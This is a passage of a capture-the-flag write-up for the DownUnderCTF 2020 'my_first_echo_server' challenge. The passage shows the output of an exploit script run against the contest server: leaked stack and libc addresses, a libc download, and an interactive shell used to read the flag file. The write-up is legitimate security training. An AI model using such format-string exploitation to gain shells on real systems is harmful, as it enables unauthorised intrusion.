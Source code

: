 > NOTE: This code will fail at times due to ASLR.  I should check for _badchars_ in the payload that may prematurely terminate `fgets`, but it is simple to just rerun.

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/downunderctf2020/my_first_echo_server/echos'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to chal.duc.tf on port 30001: Done
[*] stack_ret_addr: 0x7fffc00c3e88
[*] __libc_start_main_231: 0x7f4c28d0db97
[*] __libc_start_main: 0x7f4c28d0dab0
[*] getting: https://libc.rip/download/libc6_2.27-3ubuntu1_amd64.so
[*] '/pwd/datajerk/downunderctf2020/my_first_echo_server/libc6_2.27-3ubuntu1_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] libc.address: 0x7f4c28cec000
[*] Loaded 196 cached gadgets for 'libc6_2.27-3ubuntu1_amd64.so'
[*] Switching to interactive mode
$ id
uid=1000 gid=999 groups=999
$ ls -l
total 16
-rwxr-xr-x 1 65534 65534 8560 Sep 15 13:10 echos
-rw-r--r-- 1 65534 65534   36 Sep  4 04:31 flag.txt
$ cat flag.txt
DUCTF{D@N6340U$_AF_F0RMAT_STTR1NG$}
```